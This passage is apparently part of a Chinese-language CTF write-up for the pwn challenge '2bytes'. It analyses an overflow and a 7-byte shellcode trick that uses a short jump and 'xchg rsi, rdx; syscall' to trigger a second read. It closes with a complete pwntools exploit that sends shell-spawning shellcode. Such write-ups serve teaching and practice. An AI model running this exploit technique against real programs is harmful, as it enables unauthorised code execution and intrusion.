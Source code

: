 ```python
io.interactive()
rm_core()
```

### 2bytes

**题目分析**

存在溢出，可以直接覆盖来绕过判断。我们可以写的 shellcode 长度为 7 。但是程序会直接跳到第 5 个字节来运行。

**利用思路**

在 7 个字节的最后 2 个字节，我们可以用短转移来跳到最开始的地方，这样我们就有 5 个字节可以利用。

调试发现可以看到`rdx`就是跳转地址，而`rsi`是 0x1000 ，`rax`是 0 ，`rdi`也是 0 。如果我们想要二次读入，刚好`rdx`和`rsi`的参数反了。所以我们可以用`xchg`指令来交换`rdx`和`rsi`寄存器，占 3 个字节，然后接 syscall 刚好可以二次读入，共 5 个字节。

> 这里吐槽一下远程环境，感觉远程的环境就不是用 docker 上的。给的 dockerfile 明确是用 Ubuntu 22.04，而本地主机就是 Ubuntu 22.04，本地和构建的 docker 都通了，上 docker 一看内核和 libc 版本和主机是完全一样的，但是远程却通不了。细看了一下，远程的栈和本地的不一样，而且本地的 read 系统调用在`rdx`很大的时候是可以通的，但远程的却通不了，推测是内核不一样 (栈不一样可能连 libc 的大版本都不一样，因为我 patch 了 5 个 2.35 的小版本都通了，而其他的大版本才通不了)。

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64", terminal=['tmux', 'splitw', '-h', '-F' '{pane_pid}', '-P']) 
# context.log_level = "debug"

proc_path = './docker/pwn'
libc_path = ''

init_proc_with_libc(proc_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=35187, level=REMOTE, proc=proc_path)
# conn_context(args = [USE_PROXY], ld_rpath = ('./ld-2.23.so', libc_path))

elf = ELF(proc_path)
# libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    def encode(pad: bytes):
        assert len(pad) == 7
        pad = bytearray(pad)
        for i in range(4, -1, -1):
            pad[i + 2] = pad[i + 2] ^ pad[i] ^ pad[i + 1]
        return bytes(pad)

    pad = asm('xchg rsi, rdx\nsyscall\n')
    pad += b'\xeb\xf9'

    # DEBUG('b * $rebase(0x12B0)')

    pad = encode(pad)
    io.send(pad + b'\x00' + pad)
    io.send(asm(shellcraft.sh()))

    pass

exp()
io.interactive()
rm_core()
```